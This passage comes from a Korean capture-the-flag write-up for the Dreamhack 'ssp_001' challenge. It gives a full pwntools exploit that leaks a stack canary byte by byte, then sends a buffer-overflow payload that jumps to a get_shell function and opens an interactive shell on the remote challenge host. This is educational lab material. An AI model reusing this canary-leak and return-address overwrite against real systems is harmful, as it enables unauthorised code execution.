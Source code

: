 <br>

# 3. 익스플로잇 작성 후 실행

<br>

```python
from pwn import *

e=ELF("./ssp_001")

p = remote('host3.dreamhack.games', 24236)

get_shell=e.symbols['get_shell'] #get_shell 주소는 pwntools가 알아서 찾아줄 것이다

# figuring out the stack canary
canary = bytearray()
temp=bytearray(2)
for i in range (0, 4):
    p.sendlineafter("> ", "P")
    p.sendline(str(131-i))
    p.recvuntil("is : ")
    temp=p.recv(2)
    canary= canary + temp

# converting canary from str to int -> 32bit packed byte 
canary = int(canary, 16)
canary = p32(canary)

print(hexdump(canary))

# giving F option to do BOF exploitation and set the payload length
p.sendlineafter("> ", "E")

p.sendlineafter("Name Size : ", "300")

# now constructing payload; 1) BOF 2) Canary 3) getting shell(NX bit enabled)
dump = b'A'*0x40
canary
dump2=b'A'*4
ebp_dump=b'A'*4
get_shell=p32(get_shell)

payload = dump+canary+dump2+ebp_dump+get_shell

# gdb.attach(p)
# raw_input("1")

p.sendlineafter("Name : ", payload)

p.interactive()
```

그 결과, 플래그를 얻을 수 있었다. 플래그 인증샷은 스포가 되니 넣지 않을 것이다…
